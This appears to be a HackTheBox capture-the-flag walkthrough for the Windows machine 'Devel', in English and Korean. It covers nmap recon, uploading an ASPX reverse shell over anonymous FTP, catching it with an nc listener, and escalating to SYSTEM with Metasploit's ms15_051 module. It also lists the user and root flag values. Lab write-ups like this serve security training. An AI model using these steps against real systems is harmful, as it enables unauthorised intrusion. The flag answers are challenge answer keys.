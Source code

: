 
# HackTheBox Walkthrough - Machine: Devel

**Target IP**: 10.129.62.33  
**Difficulty**: Easy  
**Objective**: Gain system access via FTP + ASPX webshell and escalate privileges to retrieve both user and root flags.

---

## Task 1  
**Question**: What is the name of the service running on TCP port 21 on the target machine?  
**Answer**: `Microsoft ftpd`  

**Process**:
- 실행 명령:  
  ```bash
  nmap -sV -sC -oA nmap/Devel 10.129.62.33
  ```
- 결과:
  ```
  21/tcp open  ftp     Microsoft ftpd
  ```
- 익명 로그인 가능 및 기본 웹파일 존재 확인

---

## Task 2  
**Question**: Which basic FTP command can be used to upload a single file onto the server?  
**Answer**: `put`  

- FTP 세션에서 파일 업로드 시 사용됨

---

## Task 3  
**Question**: Are files put into the FTP root available via the webserver?  
**Answer**: `yes`  

- 웹서버 루트와 FTP 루트가 동일하여 업로드한 파일을 HTTP로 확인 가능

---

## Task 4  
**Question**: What file extension is executed as a script on this webserver?  
**Answer**: `aspx`  

- 서버 정보: `X-Powered-By: ASP.NET`  
- `.php` 미작동, `.aspx` 파일만 실행됨

---

## Submit User Flag

**과정**:
1. GitHub에서 ASPX 리버스 셸 다운로드  
   https://github.com/borjmz/aspx-reverse-shell
2. FTP로 업로드:  
   ```bash
   ftp> put shell.aspx
   ```
3. 리스너 대기:  
   ```bash
   nc -nlvp 9999
   ```
4. 웹 브라우저에서 접속:  
   ```
   http://10.129.62.33/shell.aspx
   ```
5. 쉘 획득 후 `user.txt` 확인:  
   ```bash
   type C:\Users\babis\Desktop\user.txt
   ```

**Answer**: `5b8faa08515e0b393c478f508f68eb70`

---

## Task 5  
**Question**: Which metasploit reconnaissance module can be used to list possible privilege escalation paths on a compromised system?  
**Answer**: `local_exploit_suggester`  

**Command**:
```bash
use post/multi/recon/local_exploit_suggester
set session 1
run
```

---

## Privilege Escalation

### 첫 번째 시도 (실패):
- 모듈: `exploit/windows/local/ms16_032_secondary_logon_handle_privesc`
- 실패

### 두 번째 시도 (성공):
- 모듈: `exploit/windows/local/ms15_051_client_copy_image`
```bash
use exploit/windows/local/ms15_051_client_copy_image
set session 1
set LHOST 10.10.14.156
run
```
- `getuid` 결과: `NT AUTHORITY\SYSTEM`

---

## Submit Root Flag

**Command**:
```bash
type C:\Users\Administrator\Desktop\root.txt
```

**Answer**: `935e27c70167f547427c88fbf04c1876`

---
